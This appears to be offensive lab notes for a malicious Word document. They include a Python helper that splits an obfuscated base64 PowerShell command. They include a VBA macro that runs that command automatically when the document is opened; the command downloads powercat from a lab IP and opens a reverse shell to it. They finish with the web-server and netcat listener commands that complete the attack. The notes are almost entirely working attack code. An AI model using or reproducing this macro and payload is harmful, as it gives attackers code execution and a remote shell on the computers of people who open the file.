 #### Python script to split a base64 encoded PowerShell command string
```Python
str = "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAdwA..."

n = 50

for i in range(0, len(str), n):
	print("Str = Str + " + '"' + str[i:i+n] + '"')
```
We must make sure that the base64-encoded command does not contain any line breaks after we paste it into the script

#### Macro invoking PowerShell to create a reverse shell
```
Sub AutoOpen()
  MyMacro
End Sub

Sub Document_Open()
  MyMacro
End Sub

Sub MyMacro()
  Dim Str As String

    Str = Str + "powershell.exe -nop -w hidden -e SQBFAFgAKABOAGUAd"
    Str = Str + "wAtAE8AYgBqAGUAYwB0ACAAUwB5AHMAdABlAG0ALgBOAGUAdAA"
    Str = Str + "uAFcAZQBiAEMAbABpAGUAbgB0ACkALgBEAG8AdwBuAGwAbwBhA"
    Str = Str + "GQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AMQA5ADI"
    Str = Str + "ALgAxADYAOAAuADQANQAuADEAOQA3AC8AcABvAHcAZQByAGMAY"
    Str = Str + "QB0AC4AcABzADEAJwApADsAcABvAHcAZQByAGMAYQB0ACAALQB"
    Str = Str + "jACAAMQA5ADIALgAxADYAOAAuADQANQAuADEAOQA3ACAALQBwA"
    Str = Str + "CAANAA0ADQANAAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGw"
    Str = Str + "A"
 
  CreateObject("Wscript.Shell").Run Str
End Sub
```
After we modify our macro, we can save and close the document.

#### Start a Python3 web server in the directory where the PowerCat.ps1 script is located
```Shell
python3 -m http.server 80
```

#### Start a netcat listener
```Shell
nc -lnvp 4443
```

#### After double-clicking the document, the macro is automatically executed
